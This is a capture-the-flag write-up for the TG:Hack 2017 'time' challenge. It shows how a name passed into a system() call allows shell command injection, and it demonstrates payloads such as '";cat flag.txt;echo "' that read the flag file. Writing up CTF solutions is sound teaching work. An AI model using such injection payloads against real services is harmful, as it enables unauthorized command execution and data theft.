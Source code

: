 # time writeup

Let's connect and see what we get:
```
$ nc time.tghack.no 1111
What's your name? PewZ

Hello PewZ, here's the current time:
Fri Mar  3 15:35:59 UTC 2017
```

Okay. The program takes a name as input, and then prints our name and the current time.

We could spend time reversing the binary, but an easy way to see what's happening is using `ltrace`:

```
$ ltrace ./time
__libc_start_main(0x4008b5, 1, 0x7ffcf66ba048, 0x4009e0 <unfinished ...>
__sysv_signal(14, 0x400896, 0x7ffcf66b9d10, 0)       = 0
alarm(15)                                            = 0
setvbuf(0x7f454d41a620, 0, 2, 0)                     = 0
printf("What's your name? "What's your name? )                         = 18
fgets(test
"test\n", 64, 0x7f454d4198e0)                  = 0x7ffcf66b9d10
strcspn("test\n", "\n")                              = 4
snprintf("echo "Hello test, here's the cur"..., 511, "echo "Hello %s, here's the curre"..., "test") = 52
system("echo "Hello test, here's the cur"...Hello test, here's the current time:
Fri Mar  3 15:36:41 UTC 2017
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                               = 0
+++ exited (status 0) +++<Paste>
```

Let's look at that format string sent to `snprintf()`.
```
$ strings time | grep echo
echo "Hello %s, here's the current time: " && date
```

Well that's great! We can control the command sent to `system()` by the program.
Let's try something:
```
What's your name? "; ls
sh: 1: Syntax error: Unterminated quoted string
```

Which means we have to make sure that the shell can execute the command without any syntax errors.

```
What's your name? ";ls;echo "

Hello
flag.txt
time
time.c
, here's the current time:
Fri Mar  3 15:40:25 UTC 2017
```

Nice!


```
What's your name? ";cat flag.txt;echo "

Hello
TG17{tick_t0ck_arbitrary_c0de_execution}
, here's the current time:
Fri Mar  3 15:40:52 UTC 2017
```
